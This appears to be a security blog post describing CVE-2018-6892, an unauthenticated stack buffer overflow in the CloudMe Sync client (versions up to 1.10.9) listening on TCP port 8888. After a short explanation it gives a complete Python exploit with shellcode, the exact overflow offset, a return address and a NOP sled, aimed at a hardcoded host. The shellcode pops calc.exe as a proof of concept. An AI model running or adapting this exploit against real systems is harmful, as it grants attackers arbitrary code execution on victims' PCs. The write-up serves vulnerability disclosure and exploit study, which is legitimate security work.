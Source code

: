 ```yaml
---
layout: post
title:  "CloudMe Sync <= v1.10.9"
date:   2019-07-08 9:07:10 -0700
categories: [security]
---
```


Product:
===========
CloudMe Sync <= v1.10.9

CloudMe is a file storage service operated by CloudMe AB that offers cloud storage, file synchronization and client software.
It features a blue folder that appears on all devices with the same content, all files are synchronized between devices.


Vulnerability Type:
===================
`Buffer Overflow`


CVE Reference:
==============
`CVE-2018-6892`

Security Issue:
================
Unauthenticated remote attackers that can connect to the "CloudMe Sync" client application listening on port 8888, can send a malicious payload causing
a Buffer Overflow condition. This will result in an attacker controlling the programs execution flow and allowing arbitrary code execution on the victims PC.

CloudMe Sync client creates a socket listening on TCP Port 8888 (0x22B8)

![socket](/static/img/02/socket.png)

In Qt5Core:

![q5_network](/static/img/02/q5_network.png)

lets try to send some junk data to our service listening at `8888` 

![crash](/static/img/02/crash.png)

this software is very easy as ASLR / SafeSEH are all set to false making the exploit reliable, and universal exploit.
as we can also see the crash overwritte `eip , edi , ebx` in this case . we can see we have two attack vectors via `SEH or Stack Based Overflow` 

```python 
#!/usr/bin/python
# tested on windows 7 x86 sp1 enterprise
import socket
import struct

# pop calc.exe

shellcode =  "\x31\xF6\x56\x64\x8B\x76\x30\x8B\x76\x0C\x8B\x76\x1C\x8B"
shellcode += "\x6E\x08\x8B\x36\x8B\x5D\x3C\x8B\x5C\x1D\x78\x01\xEB\x8B"
shellcode += "\x4B\x18\x8B\x7B\x20\x01\xEF\x8B\x7C\x8F\xFC\x01\xEF\x31"
shellcode += "\xC0\x99\x32\x17\x66\xC1\xCA\x01\xAE\x75\xF7\x66\x81\xFA"
shellcode += "\x10\xF5\xE0\xE2\x75\xCF\x8B\x53\x24\x01\xEA\x0F\xB7\x14"
shellcode += "\x4A\x8B\x7B\x1C\x01\xEF\x03\x2C\x97\x68\x2E\x65\x78\x65"
shellcode += "\x68\x63\x61\x6C\x63\x54\x87\x04\x24\x50\xFF\xD5\xCC"


payload = "A" * 1036 + '\x25\xDF\xB8\x68' + "\x90" * 16 + shellcode

try:
    print "\nSending tons of random bytes..."
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('192.168.0.27', 8888)) 
    client.send(payload) 
    client.close() 
    print "\nDone! Wonder if we got that shell back?"
except:
    print "Could not connect to 8888 for some reason..."
```
